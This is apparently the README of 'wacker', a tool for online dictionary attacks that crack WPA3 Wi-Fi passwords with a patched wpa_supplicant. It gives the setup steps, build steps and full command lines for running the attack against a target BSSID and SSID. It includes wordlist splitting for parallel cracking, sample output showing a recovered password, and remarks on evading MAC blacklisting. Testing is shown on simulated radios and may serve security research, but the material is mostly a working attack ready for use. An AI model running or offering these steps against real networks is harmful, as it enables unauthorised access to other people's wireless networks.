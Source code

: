 # Overview
A set of scripts to help perform an online dictionary attack against a WPA3 access point. Wacker leverages the wpa_supplicant control interface to control the operations of the supplicant daemon and to get status information and event notifications ultimately helping speedup connection attempts during brute force attempts.


# Find a WPA3 AP to use
If you already have a WPA3 AP that works then great. In lieu of that you can setup a local environment using mac80211_hwsim (details below) or use the VMs provided by the RF Hackers Sanctuary (highly recommended). Testing was done almost exculsively using the simulated mac80211 environments. Little attention was given to a real AP... for now... so your YMWV.

## Local Simulated Radios
To set up your own software simulator of 802.11 radios simply configure and load the correct mac80211_hwsim module.
```
# modprobe mac80211_hwsim radios=4
# iwconfig
wlan0     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan1     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan2     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan3     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

Choose one of the new interfaces as your WPA3 access point and use the following conf file.
```
# cat hostapd.conf
interface=wlan0
ssid=WCTF_18
driver=nl80211
hw_mode=g
channel=1
logger_syslog=-1
logger_syslog_level=3
wpa=2
wpa_passphrase=Aeromechanics
wpa_key_mgmt=SAE
rsn_pairwise=CCMP
ieee80211w=2
group_mgmt_cipher=AES-128-CMAC
```
And start hostapd with
```
# hostapd -K -dd hostapd.conf
```


# Split a wordlist
If you have intentions of farming out your cracking efforts across a series of nics the provided split.sh script will partition a wordlist for you.
```
# ./split.sh 10 cyberpunk.words 
  50916 cyberpunk.words.aaa
  50916 cyberpunk.words.aab
  50916 cyberpunk.words.aac
  50916 cyberpunk.words.aad
  50916 cyberpunk.words.aae
  50916 cyberpunk.words.aaf
  50916 cyberpunk.words.aag
  50916 cyberpunk.words.aah
  50916 cyberpunk.words.aai
  50907 cyberpunk.words.aaj
 509151 total
```


# Building wpa_supplicant
We're providing our own wpa_supplicant in order to guarantee that certain configurations are set as well as a few mods that need to occur within the source code itself. To build simply do the following. Hopefully in the future this will become a deprecated step.
```
# apt-get install -y pkg-config libnl-3-dev gcc libssl-dev libnl-genl-3-dev
# cd wpa_supplicant-2.8/wpa_supplicant/
# cp defconfig_brute_force .config
# make -j4
# ls -al wpa_supplicant
-rwxr-xr-x 1 root root 13541416 May 31 16:30 wpa_supplicant
```
Of interest are a few new event messages that were added to the wpa supplicant control interface to help further distinguish outcomes the wacker script hooks.
```
/** auth success for our brute force stuff (WPA3) */
#define WPA_EVENT_BRUTE_SUCCESS "CTRL-EVENT-BRUTE-SUCCESS "
/** auth failure for our brute force stuff (WPA3) */
#define WPA_EVENT_BRUTE_FAILURE "CTRL-EVENT-BRUTE-FAILURE " 
```


# Python Requirement
The wacker.py script makes use of a few f-strings among other python3-isms. In the interest of releasing the code sooner this requirement was kept. Here are some generic install instructions for Python3.7 if needed. I know in the future this will become a deprecated step.

```
# apt-get install build-essential tk-dev libncurses5-dev libncursesw5-dev libreadline6-dev libdb5.3-dev libgdbm-dev libsqlite3-dev libssl-dev libbz2-dev libexpat1-dev liblzma-dev zlib1g-dev libffi-dev -y
# wget https://www.python.org/ftp/python/3.7.0/Python-3.7.0.tar.xz
# tar xf Python-3.7.0.tar.xz
# cd Python-3.7.0
# ./configure
# make -j4
# make altinstall
```


# Running wacker
The wacker.py script is intended to perform all the heavy lifting.
```
# ./wacker.py --help
usage: wacker.py [-h] --wordlist WORDLIST --interface INTERFACE --bssid BSSID
                 --ssid SSID --freq FREQ [--start START_WORD] [--debug]

A WPA3 dictionary cracker. Must run as root!

optional arguments:
  -h, --help            show this help message and exit
  --wordlist WORDLIST   wordlist to use
  --interface INTERFACE
                        interface to use
  --bssid BSSID         bssid of the target
  --ssid SSID           the ssid of the WPA3 AP
  --freq FREQ           frequency of the ap
  --start START_WORD    word to start with in the wordlist
  --debug               increase logging output
```
With any luck... running the attack using just one instance...
```
# ./wacker.py --wordlist cyberpunk.words --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan2 --freq 2412
Start time: 21 Aug 2020 07:40:11
Starting wpa_supplicant...
    5795 / 509151   words (1.14%) :  79.41 words/sec : 0.020 hours lapsed :   1.76 hours to exhaust (21 Aug 2020 09:25:49)
Found the password: 'Aeromechanics'

Stop time: 21 Aug 2020 07:41:24
```

Running multiple instances of wacker is easy if you have the spare nics. Don't forget to parition the wordlist as well.
```
# ./wacker.py --wordlist cyberpunk.words.aaa --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan1 --freq 2412
# ./wacker.py --wordlist cyberpunk.words.aab --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan2 --freq 2412
# ./wacker.py --wordlist cyberpunk.words.aac --ssid WCTF_18 --bssid 02:00:00:00:00:00 --interface wlan3 --freq 2412
```

# Files of interest
wacker is quite verbose. Files of interest are found under <b>/tmp/wacker/</b>
 - wlan1 : one end of the uds
 - wlan1_client : one end of the uds
 - wlan1.conf : initial wpa_supplicant conf needed
 - wlan1.log : supplicant output (only when using --debug option)
 - wlan1.pid : pid file for the wpa_supplciant instance
 - wlan1_wacker.log : wacker debug output


# Caution
wacker doesn't handle acls put in place by the target WPA3 AP. Meaning, the current code always uses the same MAC address. If the target AP blacklists our MAC address then the script won't differentiate between a true auth failure and our blacklisted MAC being rejected. This will mean that we'll consider the true password as a failure. One way to solve.... we would have to add macchanger to the source at the expense of slowdown.

wacker will seemingly pause everything so often as the AP will issue a backoff timeout. This will cause metric display to seemingly pause and then start again. This is expected behavior.

# Common Problems
* You'll see this when your client driver doesn't support the correct AKM. Typically this manifests itself in the wpa_supplicant output after you try and run the wacker script. The supplicant will essentially hang waiting further instructions with the AKM issue detailed below. The needed AKM is 00-0F-AC:8 (SAE) in the cases of WPA3.

```
u631_3: WPA: AP group 0x10 network profile group 0x18; available group 0x10
u631_3: WPA: using GTK CCMP
u631_3: WPA: AP pairwise 0x10 network profile pairwise 0x18; available pairwise 0x10
u631_3: WPA: using PTK CCMP
u631_3: WPA: AP key_mgmt 0x400 network profile key_mgmt 0x400; available key_mgmt 0x400
u631_3: WPA: Failed to select authenticated key management type
u631_3: WPA: Failed to set WPA key management and encryption suites
```


# TODO
* Create a wrapper script to launch wacker across multiple nics. This will avoid having to instantiate wacker manually for each nic. Have the wrapper also split the wordlist and consolidate the stats.
